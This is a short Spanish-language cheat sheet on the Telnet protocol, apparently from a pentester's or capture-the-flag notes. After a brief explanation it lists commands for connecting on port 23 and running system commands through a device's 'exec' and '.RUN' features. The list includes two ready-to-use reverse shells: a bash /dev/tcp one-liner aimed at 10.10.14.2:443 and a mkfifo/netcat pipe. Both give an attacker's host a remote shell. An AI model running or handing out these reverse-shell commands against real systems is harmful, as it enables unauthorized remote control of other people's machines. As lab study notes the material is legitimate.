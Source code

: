 # Telnet 

Tags: #Telnet #Puerto #Comandos 

Telnet es el nombre de un protocolo de red que nos permite acceder a otra máquina para manejarla remotamente como si estuviéramos sentados delante de ella. También es el nombre del programa informático que implementa el cliente.

## Comandos

```bash 
❯ telnet ❮IP❯ 23             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                     # Mirar el panel de ayuda, en ocasiones se encuentra ‘exec system commands’ 
     ❯ exec id               # Muestra el id
     ❯ exec ifconfig         # Muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si se puede ejecutar comandos, se puede hacer una ReverShell de esta manera colocando la IP del atacante y su puerto

	❯ .HELP                 # Mostrar los comandos a ejecutar 
	❯ .RUN ping IP -c 1     # Hacer ping
	❯ .RUN mkfifo /tmp/msnht; nc IP 443 0</tmp/msnht | /bin/sh >/tmp/msnht 2>&1; rm /tmp/msnht   # Revershell
```